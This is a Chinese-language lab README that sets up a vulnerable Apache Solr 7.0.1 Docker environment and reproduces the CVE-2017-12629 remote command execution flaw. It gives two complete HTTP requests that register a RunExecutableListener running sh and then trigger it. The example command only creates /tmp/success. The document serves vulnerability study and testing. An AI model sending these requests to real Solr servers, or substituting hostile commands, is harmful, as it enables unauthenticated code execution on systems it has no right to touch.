



# Apache Solr 远程命令执行漏洞（CVE-2017-12629）

Apache Solr 是一个开源的搜索服务器。它使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。在 7.1.0 版本之前，发现了两个漏洞：XML 外部实体注入（XXE）和远程命令执行（RCE），这两个漏洞的编号均为 CVE-2017-12629。这两个漏洞可以连接成利用链。

本环境演示远程命令执行漏洞。

参考链接：

- <https://www.exploit-db.com/exploits/43009/>
- <https://paper.seebug.org/425/>

## 环境搭建

执行如下命令启动 Apache Solr 7.0.1 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8983/` 即可看到 Apache Solr 的管理页面，无需登录。

## 漏洞复现

首先创建一个 listener，设置 `exe` 的值为我们想执行的命令，`args` 的值为命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```



然后进行 update 操作，触发刚才添加的 listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```



执行 `docker compose exec solr bash` 进入容器，可以看到 `/tmp/success` 文件已成功创建：


